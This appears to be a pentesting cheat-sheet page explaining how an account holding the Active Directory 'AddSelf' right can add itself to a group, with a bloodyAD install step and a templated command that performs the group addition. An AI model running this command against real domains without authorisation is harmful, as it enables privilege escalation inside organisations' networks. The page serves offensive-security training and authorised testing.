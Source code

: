 # 'AddSelf' to a group

When a user has `AddSelf` rights, it has the privilege to add itself to the group.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To add we can do this:

{% code title="BloodyAD" overflow="wrap" %}
```bash
# installation
sudo apt install bloodyad

bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember $TargetGroup $TargetUser
```
{% endcode %}
